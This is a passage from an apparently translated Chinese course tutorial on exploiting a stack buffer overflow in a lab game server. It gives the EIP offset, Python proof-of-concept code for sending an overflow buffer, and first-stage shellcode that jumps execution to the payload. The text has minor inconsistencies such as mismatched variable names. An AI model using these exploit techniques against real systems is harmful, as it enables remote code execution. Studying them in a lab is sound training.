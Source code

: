 ```bash
kali@kali:~$ msf-pattern_offset-q 46367046
[*] Exact match at offset 4368
```

得到偏移量4368

修改脚本

```python
...
host = "10.11.0.128"
crash = "\x41" * 4368 + "B" * 4 + "C" * 7
buffer = "\x11(setup sound " + patter + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
...
```

### 为我们的Shellcode定位空间

我们注意到，ESP寄存器指向缓冲区的末尾，仅保留七个字节的Shellcode空间。此外，我们无法增加溢出缓冲区的大小来尝试获得更多空间。即使增加一个字节也会产生不同的崩溃，无法正确覆盖EIP。

仔细研究崩溃时寄存器的状态（图227），可以发现更多的选择。EAX寄存器似乎指向缓冲区的开头，包括“设置声音”字符串。

继续我们的分析，看起来ESP寄存器在崩溃时指向唯一缓冲区的末尾，但这仅给我们提供了一些字节的Shellcode空间。我们可以尝试使用创建第一阶段shellcode所需的有限空间。该第一阶段的shellcode而非EA寄存器之类的实际有效载荷，将用于对齐EAX寄存器，以便使其在“设置声音”字符串之后指向我们的缓冲区，然后跳转到该位置，从而使我们能够跳过条件跳转。为了实现这一点，我们的第一阶段shellcode将需要将EAX的值增加12（\ x0C）个字节，因为字符串“ setup sound”中有12个字符。可以使用ADDassembly指令完成此操作，然后使用JMP指令继续跳转到EAX指向的内存。

```bash
kali@kali:~$ msf-nasm_shell
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0       jmp eax
```

对我们来说幸运的是，这两套指令（\ x83 \ xc0 \ x0c \ xff \ xe0）仅占用5个字节的内存。我们可以通过包括第一阶段的shellcode并用NOP（\ x90）重新填充原始缓冲区来更新概念验证，以保持正确的长度。

```python
...
host = "10.11.0.128"
#crash = "\x41" * 4368 + "B" * 4 + "C" * 7

padding = "\x41" * 4368
eip = "\x42\x42\x42\x42"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setupsound " + padding + eip + first_stage+ "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
...
```

运行更新的概念验证代码后，我们可以验证EIP寄存器是否被四个B（\ x42）覆盖，并且我们的第一阶段shellcode位于ESP寄存器所指向的内存地址上
